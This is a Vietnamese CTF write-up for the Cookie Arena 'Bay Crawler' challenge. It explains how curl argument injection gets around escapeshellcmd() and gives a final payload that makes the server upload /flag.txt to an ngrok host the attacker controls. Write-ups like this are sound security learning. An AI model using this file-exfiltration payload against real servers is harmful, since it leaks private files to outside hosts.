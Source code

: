 ## Challenge: Bay Crawler

Hé lô, nay chúng ta sẽ giải một bài ctf khá hay ho tới từ Cookie Arena.

<img src="img/img1.png">

Nhập bất cứ trang web nào thì trang web này cũng sẽ thu thập nội dung của website đó rồi nén lại thành 1 đường dẫn ở Catched File.

<img src="img/img2.png">

Lúc đầu, tui nghĩ sẽ sử dụng SSRF hoặc command injection, nhưng không thu được gì.

Đọc source code thì thấy có một thông tin thú zị.

<img src="img/img3.png">

Ở ```/?debug``` có chứa code php, lướt lướt qua sơ thì thấy đoạn này

<img src="img/img4.png">

Chú ý từ đoạn else, nếu đầu vào đúng thì server sẽ sử dụng lệnh curl để crawl nội dung từ url ta nhập vào sau đó đưa vào file được mã hóa ở .cache.
Chú ý hàm ```escapeshellcmd()``` đã chặn những kí tự có thể sử dụng để hình thành shell -> Không dùng command injection được.

Theo tui được biết thì lệnh curl cũng có thể gửi file đi được, với option -F.
Ý tưởng sẽ là thế này, chúng ta sẽ gửi payload ```-F @/flag.txt http://hackerserver.com``` để server thực hiện lệnh curl, gửi nội dung file ```flag.txt``` đến với server mà ta host. Ở đây tui sử dụng ```ngrok``` hoặc có thể sử dụng ```Collaborator Client``` ở Burpsuit Pro.

Payload: ```-F @/flag.txt https://f37d-42-119-101-63.ngrok-free.app/```
Nếu nhập payload trên thì sẽ không được vì lệnh if yêu cầu phải có http hoặc https ở đầu.

<img src="img/img5.png">

Có vẻ hơi mệt nhưng thật ra khá là dễ để bypass chỉ cần thêm một url đúng nào đó thôi.
-> Payload cuối cùng: ```https://google.com -F file=@/flag.txt https://f37d-42-119-101-63.ngrok-free.app/```. Gửi lên server, server sẽ thực hiện curl tới google rồi sau đó gửi file flag.txt đến server ngrok nơi ta host.

<img src="img/img6.png">

Tèn ten, đã giải xong bài. Một challenge hay ho và học được nhiều điều. Nếu bạn không biết sử dụng [ngrok](https://ngrok.com/) thì cứ vào web này, một tool khá hay ho hoặc bạn có thể lên youtube tìm kiếm.

## THANK YOU FOR LEARNING, GUYS

## PATIENCE IS THE KEY, SO KEEP TRYING EVERDAY, LUV U <3
